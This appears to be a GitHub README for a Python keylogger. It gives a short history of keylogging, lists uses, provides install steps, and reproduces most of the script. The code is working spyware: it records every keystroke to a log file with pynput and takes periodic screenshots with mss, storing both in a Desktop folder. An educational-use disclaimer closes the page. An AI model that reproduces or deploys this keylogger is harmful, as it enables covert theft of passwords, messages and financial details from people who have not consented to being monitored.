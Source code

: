 # Welcome Folks



## This is a basic Keylogger Programme

### About

Keyloggers first appeared on the scene in the late 80’s and early 90’s. One of the earliest keyloggers was writing by a man named Perry Kivolowitz. He posted his source code to net.unix-wizards, net.sources on November 17, 1983.  The program basically operated by locating character lists, or clists, as they were being built by the Unix kernel. <br/>
Keystroke logging, also known as _keylogging_, is simply tracking the keys that are struck on a keyboard. This can be done in multiple ways using a wide variety of hardware devices or software. The reason for its large threat to networks and their security is due to its covertness nature.  Most keyloggers show no signs of any intrusion within the system allowing for them to gain typed information without anyone having knowledge of its actions except for the user who installed it. With the proper keylogger installed on the correct machine a person could easily gain access to a company’s entire network infrastructure. In terms of system critical data or extremely privileged information this could cause problems for a vast amount of people very quickly.

### Applications
**Acceptable uses:**  <br/>
•	Parent monitoring child’s computer usage <br/>
•	Boss monitoring employee’s computer usage <br/>
•	Government retrieving information pertinent to a crime <br/>
<br/>
**Malicious uses:** <br/>
•	Cracking passwords <br/>
•	Gaining unauthorized information <br/>
•	Stealing credit card numbers <br/>
•	Reading sent emails or messages not intended for public viewing <br/>
•	Retrieving secret names <br/>
•	Stealing account numbers <br/>

### How to Use ?
First of all you need to install all the mentioned python libraries in your device (Here I am assuming that latest Python version is installed in your device).
<br/><b>Write the following commands in the cmd window:</b>

```
pip install mss
```

```
pip install pynput
```


```
pip install threading
```


```
pip install os
```

Once you are done with all these libraries, you can download the "Keylogger.py" script and open it in any of the Python IDE(` PyCharm, Jupyter Notebook, Spyder, IDLE..`)
<br/>
Now, when you Run the script it will ask for "A Time interval which you want to be there in between each interval" and once you give the input then the keyogger will start tracking.
<br/>
<br />
This Keylogger will make a new Directory on the Desktop named "Keylogger" where all the Screenshots and log file will be stored.

### How to Stop? 
In order to stop this Keylogger, you have to stop the python script. 


```python

count=0
keys=[]                  #List all the pressed keys


                                        
class IntervalTimer(Timer):         #Control the Time interval between each Screenshots
    def run(self):
        while not self.finished.wait(self.interval):
            self.function(*self.args, **self.kwargs)
            
            
def write_file(keys):                  #To write the keys to the Files
    with open("C:/Users /Desktop/Keylogger-master/log.txt","a") as f:
        for key in keys:
            k=str(key).replace("'","")
            if k.find("space")>0:     	 #Replace Key_Space with " " in the main file
                f.write(" ")
            if k.find("enter")>0:    	  #Replace Key_Enter with "\n or nextline"
                f.write("\n")
            elif k.find("Key") == -1:   
                f.write(k)
                  

class keylogger_main:
    
    def _build_logs(self):   		#To create the directory which contains all the data
        if not os.path.exists('C:/Users/ Desktop/Keylogger-master'):
            os.mkdir('C:/Users/ Desktop/Keylogger-master')
            os.mkdir('C:/Users/ Desktop/Keylogger-master/Screenshots')
            os.mknod('C:/Users /Desktop/Keylogger-master/log.txt')
    
    def _on_press(self,k):       	#This Function keeps track of pressed keys
        global keys, count
        #print("{0} pressed".format(k))
        keys.append(k)
        count+=1
    
        if count >=10:
            count=0
            write_file(keys)
            keys=[]   
    
    def _keylogger(self):            #Main Funciton to start the key tracker
        with Listener(on_press=self._on_press) as listener:
            listener.join()
            
    def _Screenshot(self):          	 #Main Function to start thr Screenshot tracker
        sct=mss()
        sct.shot(output='C:/Users/Desktop/Keylogger-master/Screenshots/{}.png'.format(time.time()))
    
    def run(self,interval):       		   #Main fucntion to start the keylogger
        
        self._build_logs()
        Thread(target=self._keylogger).start()   #This thread function is used to Run the Keys and Screenshots tracker parallely
        IntervalTimer(interval, self._Screenshot).start()
        
        
km=keylogger_main() 
interval=int(input("Enter the time interval (in sec.) between each Screenshot:"))
km.run(interval)

```
 
Get the complete code [Here](https://github.com/Aryan529/Keylogger/) 


### Disclaimer
This undertaking is just for _Educational Purposes_ and the abuse of the data in this venture can result in criminal allegations brought against the people being referred to.<br/> 
I am in no way responsible for the misuse of the information.
